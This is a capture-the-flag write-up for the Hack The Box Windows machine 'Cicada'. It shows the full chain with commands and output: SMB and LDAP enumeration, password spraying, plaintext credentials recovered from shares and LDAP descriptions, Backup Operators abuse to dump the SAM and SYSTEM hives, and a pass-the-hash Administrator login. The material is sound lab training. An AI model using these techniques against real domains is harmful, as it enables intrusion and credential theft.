

## Intro


[[windows]] [[NotAssumedBreach]] [[PrivGroupAbuse]]

Tags: #windows #NotAssumedBreach #PrivGroupAbuse

- rpcclient (RPC enumeration)
- nxc (LDAP, SMB enumeration, rid-brute-force, password spraying)
- reg.py (Remote registry manipulation too**l** through the MSRPC Interface)
- secretsdump (dumping registry hives)

---

# Reconnaissance

## Add target to /etc/hosts

```bash
sudo sh -c "echo '10.129.180.83 cicada.htb' >> /etc/hosts"
```

## Nmap scan

```bash
sudo nmap -sC -sV cicada.htb
```

```bash
Starting Nmap 7.94SVN ( <https://nmap.org> ) at 2025-08-19 10:24 CDT
Nmap scan report for cicada.htb (10.129.180.83)
Host is up (0.076s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-08-19 22:25:14Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
Service Info: Host: CICADA-DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 6h59m59s
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
| smb2-time:
|   date: 2025-08-19T22:25:59
|_  start_date: N/A

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 103.34 seconds
```

## RPC enumeration

### Anonymous

```bash
└──╼ [★]$ rpcclient -U "" -N cicada.htb
rpcclient $> enumdomains
result was NT_STATUS_ACCESS_DENIED
rpcclient $> enumdomusers
result was NT_STATUS_ACCESS_DENIED
```

was not successful

## LDAP enumeration

```bash
ldapsearch -LLL -x -H ldap://cicada.htb -s base namingcontexts
```

```bash
dn:
namingcontexts: DC=cicada,DC=htb
namingcontexts: CN=Configuration,DC=cicada,DC=htb
namingcontexts: CN=Schema,CN=Configuration,DC=cicada,DC=htb
namingcontexts: DC=DomainDnsZones,DC=cicada,DC=htb
namingcontexts: DC=ForestDnsZones,DC=cicada,DC=htb
```

```bash
ldapsearch -LLL -x -H ldap://cicada.htb -b "DC=cicada,DC=htb" "objectclass=user" | egrep -i ^samaccountname | awk -F ': ' '{print $2}' | tee users.txt
```

was not successful

## SMB enumeration

### Anonymous

```bash
	smbclient -N -L cicada.htb
```

```bash
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
DEV             Disk      
HR              Disk      
IPC$            IPC       Remote IPC
NETLOGON        Disk      Logon server share 
SYSVOL          Disk      Logon server share
```

or we could also run

```bash
nxc smb cicada.htb -u guest -p '' --shares
```

```bash
SMB         10.129.180.83   445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.180.83   445    CICADA-DC        [+] cicada.htb\guest: 
SMB         10.129.180.83   445    CICADA-DC        [*] Enumerated shares
SMB         10.129.180.83   445    CICADA-DC        Share           Permissions     Remark
SMB         10.129.180.83   445    CICADA-DC        -----           -----------     ------
SMB         10.129.180.83   445    CICADA-DC        ADMIN$                          Remote Admin
SMB         10.129.180.83   445    CICADA-DC        C$                              Default share
SMB         10.129.180.83   445    CICADA-DC        DEV                             
SMB         10.129.180.83   445    CICADA-DC        HR              READ            
SMB         10.129.180.83   445    CICADA-DC        IPC$            READ            Remote IPC
SMB         10.129.180.83   445    CICADA-DC        NETLOGON                        Logon server share 
SMB         10.129.180.83   445    CICADA-DC        SYSVOL                          Logon server share

```

Here, i see 2 shares as non default windows ones, the `DEV` and `HR`, lets navigate to them

```bash
smbclient //cicada.htb/DEV
```

no access here, lets try `HR` share:

```bash
smbclient //cicada.htb/HR

smb: \> ls
  .                                   D        0  Thu Mar 14 07:29:09 2024
  ..                                  D        0  Thu Mar 14 07:21:29 2024
  Notice from HR.txt                  A     1266  Wed Aug 28 12:31:48 2024
  
smb: \> mget *
```

viewing the txt file, we are given a password:

```bash
Your default password is: Cicada$M6Corpb*@Lp#nZp!8
```

though the txt file mentions username mentioned above, no username was found inside. Since we have now username and we know this password is a valid one, we can perform password spraying

---

# Foothold

## Gather valid users (via rid-brute-forcing)

Perform rid brute forcing:

```bash
nxc smb cicada.htb -u guest -p '' --rid-brute
```

Place them on a txt for our next steps:

```bash
nxc smb cicada.htb -u guest -p '' --rid-brute | grep SidTypeUser | cut -d'\' -f2 | cut -d' ' -f1 | tee users.txt
```

The valid users gathered are:

```bash
Administrator
Guest
krbtgt
CICADA-DC$
john.smoulder
sarah.dantelia
michael.wrightson
david.orelious
emily.oscars
```

## Password spraying

```bash
nxc smb cicada.htb-u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success
```

```bash
SMB         10.129.180.83   445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.180.83   445    CICADA-DC        [-] cicada.htb\Administrator:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB         10.129.180.83   445    CICADA-DC        [-] cicada.htb\Guest:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.129.180.83   445    CICADA-DC        [-] cicada.htb\krbtgt:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.129.180.83   445    CICADA-DC        [-] cicada.htb\CICADA-DC$:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB         10.129.180.83   445    CICADA-DC        [-] cicada.htb\john.smoulder:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB         10.129.180.83   445    CICADA-DC        [-] cicada.htb\sarah.dantelia:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB         10.129.180.83   445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.129.180.83   445    CICADA-DC        [-] cicada.htb\david.orelious:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB         10.129.180.83   445    CICADA-DC        [-] cicada.htb\emily.oscars:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
```

The password was correlated with `michael.wrightson` 

## Checking where we can login with `michael.wrightson` creds

Since we now have valid creds, lets use my script to bulk check the services that we can connect to via win-rm: [ch3ckkm8/auto_netexec: Automating netexec to bulk check all available services, given the target and the creds to check](https://github.com/ch3ckkm8/auto_netexec)

```bash
./auto_netexec_bulk_creds_checker.sh cicada.htb 'michael.wrightson' 'Cicada$M6Corpb*@Lp#nZp!8'
```

```bash
[*] Checking if winrm port 5985 is open on cicada.htb...
[+] Port 5985 open — checking winrm with netexec
WINRM       10.129.180.83   5985   CICADA-DC        [*] Windows Server 2022 Build 20348 (name:CICADA-DC) (domain:cicada.htb)
WINRM       10.129.180.83   5985   CICADA-DC        [-] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8

[*] Checking if smb port 445 is open on cicada.htb...
[+] Port 445 open — checking smb with netexec
SMB         10.129.180.83   445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.180.83   445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 

[*] Checking if ldap port 389 is open on cicada.htb...
[+] Port 389 open — checking ldap with netexec
SMB         10.129.180.83   445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
LDAP        10.129.180.83   389    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 

[*] Checking if rdp port 3389 is open on cicada.htb...
[-] Skipping rdp — port 3389 is closed

[*] Checking if wmi port 135 is open on cicada.htb...
[-] Skipping wmi — port 135 is closed

[*] Checking if nfs port 2049 is open on cicada.htb...
[-] Skipping nfs — port 2049 is closed

[*] Checking if ssh port 22 is open on cicada.htb...
[-] Skipping ssh — port 22 is closed

[*] Checking if vnc port 5900 is open on cicada.htb...
[-] Skipping vnc — port 5900 is closed

[*] Checking if ftp port 21 is open on cicada.htb...
[-] Skipping ftp — port 21 is closed

[*] Checking if mssql port 1433 is open on cicada.htb...
[-] Skipping mssql — port 1433 is closed

```

It appears that we can login towards `SMB` and `LDAP`.

## SMB enumeration as michael.wrightson

```bash
nxc smb cicada.htb -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' --shares
```

it seems that this user has the same access as the guest user (besides NETLOGON, SYSVOL which after inspection contained nothing valuable )

```bash
SMB         10.129.180.83   445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.180.83   445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.129.180.83   445    CICADA-DC        [*] Enumerated shares
SMB         10.129.180.83   445    CICADA-DC        Share           Permissions     Remark
SMB         10.129.180.83   445    CICADA-DC        -----           -----------     ------
SMB         10.129.180.83   445    CICADA-DC        ADMIN$                          Remote Admin
SMB         10.129.180.83   445    CICADA-DC        C$                              Default share
SMB         10.129.180.83   445    CICADA-DC        DEV                             
SMB         10.129.180.83   445    CICADA-DC        HR              READ            
SMB         10.129.180.83   445    CICADA-DC        IPC$            READ            Remote IPC
SMB         10.129.180.83   445    CICADA-DC        NETLOGON        READ            Logon server share 
SMB         10.129.180.83   445    CICADA-DC        SYSVOL          READ            Logon server share
```

## LDAP enumeration as michael.wrightson

```bash
nxc ldap cicada.htb -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' --users
```

Very interesting! some accounts have Description, and one of them contains a plaintext password inside for another user!

```bash
SMB         10.129.180.83   445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
LDAP        10.129.180.83   389    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
LDAP        10.129.180.83   389    CICADA-DC        [*] Total records returned: 8
LDAP        10.129.180.83   389    CICADA-DC        -Username-                    -Last PW Set-       -BadPW- -Description-                                               
LDAP        10.129.180.83   389    CICADA-DC        Administrator                 2024-08-26 20:08:03 1       Built-in account for administering the computer/domain      
LDAP        10.129.180.83   389    CICADA-DC        Guest                         2024-08-28 17:26:56 1       Built-in account for guest access to the computer/domain    
LDAP        10.129.180.83   389    CICADA-DC        krbtgt                        2024-03-14 11:14:10 1       Key Distribution Center Service Account                     
LDAP        10.129.180.83   389    CICADA-DC        john.smoulder                 2024-03-14 12:17:29 1                                                                   
LDAP        10.129.180.83   389    CICADA-DC        sarah.dantelia                2024-03-14 12:17:29 1                                                                   
LDAP        10.129.180.83   389    CICADA-DC        michael.wrightson             2024-03-14 12:17:29 0                                                                   
LDAP        10.129.180.83   389    CICADA-DC        david.orelious                2024-03-14 12:17:29 1       Just in case I forget my password is aRt$Lp#7t*VQ!3         
LDAP        10.129.180.83   389    CICADA-DC        emily.oscars                  2024-08-22 21:20:17 1 
```

Creds obtained:

```bash
david.orelious
aRt$Lp#7t*VQ!3
```

Lets see where this user can login:

## Checking where we can login with `michael.wrightson` creds

```bash
./auto_netexec_bulk_creds_checker.sh cicada.htb 'david.orelious' 'aRt$Lp#7t*VQ!3'
```

```bash
[*] Checking if winrm port 5985 is open on cicada.htb...
[+] Port 5985 open — checking winrm with netexec
WINRM       10.129.180.83   5985   CICADA-DC        [*] Windows Server 2022 Build 20348 (name:CICADA-DC) (domain:cicada.htb)
WINRM       10.129.180.83   5985   CICADA-DC        [-] cicada.htb\david.orelious:aRt$Lp#7t*VQ!3

[*] Checking if smb port 445 is open on cicada.htb...
[+] Port 445 open — checking smb with netexec
SMB         10.129.180.83   445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.180.83   445    CICADA-DC        [+] cicada.htb\david.orelious:aRt$Lp#7t*VQ!3 

[*] Checking if ldap port 389 is open on cicada.htb...
[+] Port 389 open — checking ldap with netexec
SMB         10.129.180.83   445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
LDAP        10.129.180.83   389    CICADA-DC        [+] cicada.htb\david.orelious:aRt$Lp#7t*VQ!3 

[*] Checking if rdp port 3389 is open on cicada.htb...
[-] Skipping rdp — port 3389 is closed

[*] Checking if wmi port 135 is open on cicada.htb...
[+] Port 135 open — checking wmi with netexec
RPC         10.129.180.83   135    CICADA-DC        [*] Windows Server 2022 Build 20348 (name:CICADA-DC) (domain:cicada.htb)
RPC         10.129.180.83   135    CICADA-DC        [+] cicada.htb\david.orelious:aRt$Lp#7t*VQ!3 

[*] Checking if nfs port 2049 is open on cicada.htb...
[-] Skipping nfs — port 2049 is closed

[*] Checking if ssh port 22 is open on cicada.htb...
[-] Skipping ssh — port 22 is closed

[*] Checking if vnc port 5900 is open on cicada.htb...
[-] Skipping vnc — port 5900 is closed

[*] Checking if ftp port 21 is open on cicada.htb...
[-] Skipping ftp — port 21 is closed

[*] Checking if mssql port 1433 is open on cicada.htb...
[-] Skipping mssql — port 1433 is closed
```

This user has access to `SMB` , `LDAP` , `RPC` , lets enumerate more:

## SMB enumeration as david.orelious

```bash
nxc smb cicada.htb -u david.orelious -p 'aRt$Lp#7t*VQ!3' --shares
```

hm this user can read the `DEV` share which we previously could not read:

```bash
SMB         10.129.180.83   445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.180.83   445    CICADA-DC        [+] cicada.htb\david.orelious:aRt$Lp#7t*VQ!3 
SMB         10.129.180.83   445    CICADA-DC        [*] Enumerated shares
SMB         10.129.180.83   445    CICADA-DC        Share           Permissions     Remark
SMB         10.129.180.83   445    CICADA-DC        -----           -----------     ------
SMB         10.129.180.83   445    CICADA-DC        ADMIN$                          Remote Admin
SMB         10.129.180.83   445    CICADA-DC        C$                              Default share
SMB         10.129.180.83   445    CICADA-DC        DEV             READ            
SMB         10.129.180.83   445    CICADA-DC        HR              READ            
SMB         10.129.180.83   445    CICADA-DC        IPC$            READ            Remote IPC
SMB         10.129.180.83   445    CICADA-DC        NETLOGON        READ            Logon server share 
SMB         10.129.180.83   445    CICADA-DC        SYSVOL          READ            Logon server share
```

Lets navigate to the `DEV` share via smvclient:

```bash
smbclient -U david.orelious //cicada.htb/DEV -U 'david.orelious%aRt$Lp#7t*VQ!3'
```

it has a powershell script inside, lets download and inspect it

```bash
smb: \> ls
  .                                   D        0  Thu Mar 14 07:31:39 2024
  ..                                  D        0  Thu Mar 14 07:21:29 2024
  Backup_script.ps1                   A      601  Wed Aug 28 12:28:22 2024

		4168447 blocks of size 4096. 476884 blocks available
smb: \> get "Backup_script.ps1"
getting file \Backup_script.ps1 of size 601 as Backup_script.ps1 (1.9 KiloBytes/sec) (average 1.9 KiloBytes/sec)
```

`Backup_script.ps1`:

```bash
$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
```

perfect! we found creds for another user! creds obtained:

```bash
emily.oscars
Q!3@Lp#M6b*7t*Vt
```

## Checking where we can login with those creds

```bash
./auto_netexec_bulk_creds_checker.sh cicada.htb 'emily.oscars' 'Q!3@Lp#M6b*7t*Vt'
```

```bash
[*] Checking if winrm port 5985 is open on cicada.htb...
[+] Port 5985 open — checking winrm with netexec
WINRM       10.129.180.83   5985   CICADA-DC        [*] Windows Server 2022 Build 20348 (name:CICADA-DC) (domain:cicada.htb)
WINRM       10.129.180.83   5985   CICADA-DC        [+] cicada.htb\emily.oscars:Q!3@Lp#M6b*7t*Vt (Pwn3d!)

[*] Checking if smb port 445 is open on cicada.htb...
[+] Port 445 open — checking smb with netexec
SMB         10.129.180.83   445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.180.83   445    CICADA-DC        [+] cicada.htb\emily.oscars:Q!3@Lp#M6b*7t*Vt 

[*] Checking if ldap port 389 is open on cicada.htb...
[-] Skipping ldap — port 389 is closed

[*] Checking if rdp port 3389 is open on cicada.htb...
[-] Skipping rdp — port 3389 is closed

[*] Checking if wmi port 135 is open on cicada.htb...
[+] Port 135 open — checking wmi with netexec
RPC         10.129.180.83   135    CICADA-DC        [*] Windows Server 2022 Build 20348 (name:CICADA-DC) (domain:cicada.htb)
RPC         10.129.180.83   135    CICADA-DC        [+] cicada.htb\emily.oscars:Q!3@Lp#M6b*7t*Vt 

[*] Checking if nfs port 2049 is open on cicada.htb...
[-] Skipping nfs — port 2049 is closed

[*] Checking if ssh port 22 is open on cicada.htb...
[-] Skipping ssh — port 22 is closed

[*] Checking if vnc port 5900 is open on cicada.htb...
[-] Skipping vnc — port 5900 is closed

[*] Checking if ftp port 21 is open on cicada.htb...
[-] Skipping ftp — port 21 is closed

[*] Checking if mssql port 1433 is open on cicada.htb...
[-] Skipping mssql — port 1433 is closed
```

nice, we can login to `winrm` with this user, lets login

## Logging in as emily.oscars

```bash
evil-winrm -i cicada.htb -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
```

grabbed user flag: `f714f5fe3dc9c0cf4aae2d0cacaf9e03`

proof: 



---

# Privesc

## Group membership

We could launch Bloodhound, but lets inspect group membership from the inside first:

```bash
net user emily.oscars
```

```bash
User name                    emily.oscars
Full Name                    Emily Oscars
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            8/22/2024 2:20:17 PM
Password expires             Never
Password changeable          8/23/2024 2:20:17 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   8/19/2025 5:49:08 PM

Logon hours allowed          All

Local Group Memberships      *Backup Operators     *Remote Management Use
Global Group memberships     *Domain Users
The command completed successfully.
```

Interesting, this user is memberof `Backup Operators` , lets find a way to abuse that 

## Abusing Backup Operator’s privileges

### Writing registry hives to temp folder

Online i found multiple ways to do this, i preferred the following way:

```bash
reg.py emily.oscars:'Q!3@Lp#M6b*7t*Vt'@cicada.htb backup -o 'C:\windows\temp\'
```

```bash
Impacket v0.13.0.dev0+20250130.104306.0f4b866 - Copyright Fortra, LLC and its affiliated companies 

[!] Cannot check RemoteRegistry status. Triggering start trough named pipe...
[*] Saved HKLM\SAM to C:\windows\temp\\SAM.save
[*] Saved HKLM\SYSTEM to C:\windows\temp\\SYSTEM.save
[*] Saved HKLM\SECURITY to C:\windows\temp\\SECURITY.save
```

### Download registry hives locally

Then navigate to the temp folder on winrm and download the 3 registry hives above:

```bash
*Evil-WinRM* PS C:\windows\temp> download SAM.save
Info: Downloading C:\windows\temp\SAM.save to SAM.save               
Info: Download successful!

*Evil-WinRM* PS C:\windows\temp> download SYSTEM.save
Info: Downloading C:\windows\temp\SYSTEM.save to SYSTEM.save           
Info: Download successful!

*Evil-WinRM* PS C:\windows\temp> download SECURITY.save
Info: Downloading C:\windows\temp\SECURITY.save to SECURITY.save       
Info: Download successful!
```

### Dumping the registry hives

No we can dump those hives locally

```bash
secretsdump.py -sam SAM.save -system SYSTEM.save LOCAL
```

```bash
Impacket v0.13.0.dev0+20250130.104306.0f4b866 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Cleaning up... 
```

almost done, Administrator’s hash was found this way, lets login now

## Logging in as Administrator via pass the hash

```bash
evil-winrm -i cicada.htb -u 'Administrator' -H '2b87e7c93a3e8a0ea4a581937016f341'
```

grabbed root flag: `129cafa76c0b2261dd4c88a55b46138a`

proof:


---

# Summary

Here is the list of the steps simplified, per phase, for future reference and for quick reading:

### **Reconnaissance**

1. nmap scan -> found multiple services to focus on, like `RPC`, `SMB`, `LDAP`
2. **RPC** enumeration → nothing useful
3. **SMB** enumeration revealed `share` containing a txt file, containing **password** without username

### **Foothold**

1. Password spraying was performed, since we did not know which username corresponds to it, it was successful and the related user was found (michael.wrightson)
2. **Correlated** user creds with `SMB` and `LDAP` services
3. **SMB** enumeration → nothing useful
4. **LDAP** enumeration → enumerated users, found **plaintext creds on LDAP Description!** (david.orelious)
5. **Correlated** user creds with `SMB` , `LDAP` , `RPC` services
6. **SMB** enumeration revealed `share` containing a txt file, containing credentials for another user (emily.oscars)
7. **Correlated** user creds with `WINRM` service
8. **logged in** winrm as user emily.oscars
9. grabbed **user flag**

### **Privesc**

1. **Group membership** of the user indicated backup privileges (Backup Operators group)
2. **Abused** privileges via writing **registry hives** to temp folder, and downloading them locally
3. **Dumped** the registry hives locally, revealing the `NTLM` hash of Administrator
4. **Logged in** as administrator via the `NTLM` hash
5. grabbed **root flag**

---

# Sidenotes

All in all, this one had somewhat straightforward (extensive) enumeration to achieve foothold, while privesc was all about exploiting the backup related privileges the user had, as a member of Backup Operators group. Fun fact, this machine has the exact same privesc methodology as Blackfield (Windows, Hard). 
The only part that was new to me, was one of the user’s creds that where found as plaintext on the LDAP Description

